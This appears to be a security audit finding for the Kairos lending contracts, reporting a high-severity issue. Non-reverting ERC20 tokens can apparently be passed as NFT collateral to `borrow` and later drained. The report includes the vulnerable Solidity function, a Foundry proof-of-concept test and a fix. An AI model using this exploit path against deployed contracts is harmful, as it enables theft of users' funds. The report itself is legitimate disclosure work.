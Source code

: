 psy4n0n

high

# no-revert-on-transfer ERC20 tokens can be drained.

## Summary

Some ERC20 tokens don’t revert but just return false when a transfer fails. This can be abused to trick `borrow` function to initialise a loan without providing any tokens. A good example of such a token is *ZRX*: [[Etherscan code](https://etherscan.io/address/0xe41d2489571d322189246dafa5ebde1f4699f498#code#L64)](https://etherscan.io/address/0xe41d2489571d322189246dafa5ebde1f4699f498#code#L64) . The issue is because the borrow function doesn’t verify if the provided collateral is ERC20 or ERC721, and thus both can be used here. 

## Vulnerability Detail

An attacker can first sign and approve any valid erc20 token to create a valid offer as a lender ( but with collateral as the ERC20 token discussed above, this is they key point of the attack). 

The attacker then needs to call `borrow` with that offer and the nft as the ERC20 token discussed above. The line 3 would pass even if the transaction fails:

```solidity
function borrow(BorrowArg[] calldata args) external {
        for (uint256 i = 0; i < args.length; i++) {
            args[i].nft.implem.transferFrom(msg.sender, address(this), args[i].nft.id); //would not revert in case of no-revert-on-transfer tokens
            useCollateral(args[i].args, msg.sender, args[i].nft);
        }
    }
```

The useCollateral function would create a new loan with the collateral as the ERC20 token. I’ve created a test case that shows that an erc20 token can be used as collateral. 

```solidity
function testNonrevertErc20() public {
        money.mint(10000,BORROWER);
        vm.prank(BORROWER);
        money.approve(address(kairos),10000);
        NFToken memory nftoken = NFToken({implem: IERC721(address(money)), id: 10000});
        
        money2.mint(10 ether,signer);
        vm.prank(signer);
        money2.approve(address(kairos),10 ether);

        money2.allowance(signer,address(kairos));

        Offer memory offer = Offer({
                assetToLend: money2,
                loanToValue: 10 ether,
                duration: 2 weeks,
                expirationDate: block.timestamp + 2 hours,
                tranche: 0,
                collateral: nftoken
            });
        OfferArg[] memory offArgs = getOfferArgs(offer);
        BorrowArg[] memory args = new BorrowArg[](1);
        args[0] = BorrowArg({nft: nftoken, args: offArgs});
        args[0].args[0].amount = 1 ether;
        vm.prank(BORROWER);
        kairos.borrow(args);
    }
```

Now when there are enough of those non revert erc20 tokens in the contract, the attacker can liquidate their position and thus can get the erc20 tokens to themselves even when they didn’t send those to the contract ( as the transaction can be silently failed ).

## Impact

Non-revert erc20 tokens can be drained.

## Code Snippet

[https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/BorrowFacet.sol#L40](https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/BorrowFacet.sol#L40)

[https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/AuctionFacet.sol#L70](https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/AuctionFacet.sol#L70)

## Tool used

Manual Review

## Recommendation

`supportsInterface` can be used here to check, prior to doing any calls in borrow function.